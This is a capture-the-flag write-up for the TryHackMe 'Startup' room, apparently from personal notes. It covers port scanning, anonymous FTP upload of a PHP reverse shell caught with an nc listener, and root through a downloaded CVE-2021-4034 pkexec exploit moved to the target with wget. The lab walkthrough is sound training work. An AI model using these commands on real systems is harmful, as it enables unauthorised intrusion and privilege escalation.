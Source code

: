 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/try-hack-me/startup/","tags":["CTF","write-up"]}
---
```


![Pasted image 20240926192837.png|300](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240926192837.png)
Abuse traditional vulnerabilities via untraditional means.
**We are Spice Hut,** a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

---
# Active reconnaisance
## Enum ports and services
Running a general scan
```shell
sudo nmap 10.10.100.226 -sS -n -p- --min-rate 5000 -vvv -Pn --open
```

```c
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 61
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

---
# Vuln analisis
Running a focused scan
```shell
sudo nmap 10.10.100.226 -sCV -p 21,22,80
```

## Port 22
```c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
```
From launchpad probabbly Ubuntu Xenial Xerus 16.04
![Pasted image 20240927085755.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927085755.png)
## Port 21
```c
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.6.2.59
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
```
### Download the files
Connecting, set the name `ftp` or `anonymous` and the password empty.
```shell
ftp IP
ftp
```
Now we see the files.
![Pasted image 20240927215100.png|500](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927215100.png)

To download them.
```shell
get filename.txt
```
## Port 80
```c
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
### Fuzzing
```shell
wfuzz -c -t 10 --hc=404,403 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://startup.thm/files/FUZZ
```
After fuzz we found only the `files ` sub-directory
![Pasted image 20240927152857.png|300](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927152857.png)
And the ftp folder it's empty.

---
# Exploitation
## Port 21 write access
Test if we can write into the ftp folder.
We can't write into the main folder but we can do it into `ftp` folder.
![Pasted image 20240927153044.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927153044.png)
## Port 80
We create an reveseshell using https://www.revshells.com/ PHP PentestMonkey
And put that file.

Set the listener on the attacker machine
```shell
rlwrap nc -lnvp 4747
```
And go to the file in the browser. http://startup.thm/files/ftp/rev_shell_1.php
And we have the shell.
![Pasted image 20240927153415.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927153415.png)
Get a better shell
```python
python -c  'import pty;pty.spawn("/bin/bash")'
```

> [!check] What is the secret spicy soup recipe?
![Pasted image 20240927155826.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927155826.png)

---
# Privilege Escalation
Check files with [[Operative System/Linux/Permisos/SUID\|SUID]] permission
```shell
find / -type f -perm -u=s -ls 2>/dev/null
```
or
```shell
find / -type f -perm -4000 -ls 2>/dev/null
```
![Pasted image 20240927171405.png|600](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927171405.png)
## CVE-2021-4034
 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



> [!cite] NIST-CVE-2021-4034
> A local privilege escalation vulnerability was found on polkit's **pkexec** utility. The pkexec application is a **setuid** tool designed to allow unprivileged users to **run commands as privileged users** according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.

We have `pkexec`with SUID the bit enabled.
The exploit https://github.com/Almorabea/pkexec-exploit
```shell
wget https://raw.githubusercontent.com/Almorabea/pkexec-exploit/refs/heads/main/CVE-2021-4034.py
```
Or the code [[CVE-2021-4034-exploit\|CVE-2021-4034-exploit]]

And transfer to the victim machine

<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



## Transfer files
On the folder that contain the file to send **on the source machine.** E.g. `file.txt`
```python
python -m http.server 4545
```

On the destination machine
```shell
wget http://IP_SOURCE_MACHINE:4545/file.txt
```

</div></div>


Run the exploit
```shell
python3 CVE-2021-4034.py
```


</div></div>

We have the root shell
![Pasted image 20240927161322.png|500](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927161322.png)

> [!check] user.txt
> ![Pasted image 20240927171747.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927171747.png)


> [!check] root.txt
> ![Pasted image 20240927171845.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240927171845.png)



---


